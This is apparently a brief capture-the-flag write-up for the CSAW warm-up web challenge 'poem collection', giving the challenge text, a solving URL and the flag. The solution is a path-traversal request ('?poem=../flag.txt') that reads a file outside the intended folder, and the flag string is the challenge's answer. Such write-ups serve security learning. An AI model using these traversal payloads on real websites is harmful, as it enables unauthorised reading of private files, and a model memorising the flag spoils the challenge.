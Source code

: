 # poem collection
Category: Warm-up  
Description: Hey! I made a cool website that shows off my favorite poems. See if you can find flag.txt somewhere!  
http://web.chal.csaw.io:5003/  
________________________________________________
Solve: Change the link to http://web.chal.csaw.io:5003/poems/?poem=../flag.txt  
Flag: flag{l0c4l_f1l3_1nclusi0n_f0r_7h3_w1n}
